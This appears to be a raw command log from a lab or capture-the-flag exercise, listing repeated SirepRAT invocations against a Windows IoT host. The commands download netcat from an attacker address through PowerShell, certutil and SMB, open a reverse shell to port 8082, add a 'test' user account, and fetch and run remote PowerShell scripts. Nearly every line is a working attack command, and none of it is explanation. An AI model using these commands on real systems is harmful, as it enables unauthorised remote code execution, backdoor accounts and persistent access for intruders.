 ```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell (New-Object System.Net.WebClient).DownloadFile(\"http://10.10.14.11/nc.exe\") -outfile c:\temp\n1.exe"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell (New-Object System.Net.WebClient).DownloadFile(\"http://10.10.14.11/nc.exe\",\"c:\temp\n1.exe\")"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.11/nc.exe', 'c:\temp\n1.exe')"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c certutil -urlcache -split -f \"http://10.10.14.11/nc.exe\" c:\temp\w1.exe"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c copy \\10.10.14.11\smb\nc.exe c:\temp\w.exe"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c copy \\10.10.14.11\smb\nc.exe c:\Windows\System32\w.exe"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c copy \\10.10.14.11\smb\nc.exe"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c copy \\10.10.14.11\smb\nc.exe w.exe"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c \"copy \\10.10.14.11\smb\nc.exe w.exe\""
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c 'copy \\10.10.14.11\smb\nc.exe w.exe'"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c "copy \\10.10.14.11\smb\nc.exe w.exe\""
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c \"copy \\10.10.14.11\smb\nc.exe w.exe\""
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args ' /c "copy \\10.10.14.11\smb\nc.exe w.exe"'
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args ' /c "copy \\10.10.14.11\smb\nc.exe c:\temp\w.exe"'
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args ' /c "c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"'
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args ' /c "copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe"'
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args ' /c "c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"'
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args ' /c "copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe & c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"'
    
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args ' /c "net user test test /add"'
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c "copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe & c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"'
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c "powershell -c iex (new-object net.webclient).downloadstring('http://10.10.14.11/shell2.ps1')"'
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c "copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe & c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"'
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c "powershell -ExecutionPolicy Bypass -Command \"[scriptblock]::Create((Invoke-WebRequest \"http://10.10.14.11/shell2.txt\").Content).Invoke();\""'
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c "powershell -ExecutionPolicy Bypass -Command [scriptblock]::Create((Invoke-WebRequest \"http://10.10.14.11/shell2.txt\").Content).Invoke();"'
```